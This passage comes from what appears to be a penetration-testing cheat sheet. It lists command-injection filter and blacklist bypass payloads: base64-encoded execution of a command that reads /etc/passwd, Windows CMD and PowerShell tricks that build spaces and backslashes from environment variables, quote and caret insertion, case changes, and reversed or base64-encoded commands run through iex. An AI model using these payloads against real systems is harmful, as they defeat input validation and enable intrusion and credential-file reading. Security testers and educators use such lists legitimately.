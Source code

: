 | **Encoded Commands** | |
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Windows

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** | |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

# XXE (XML External Entity)

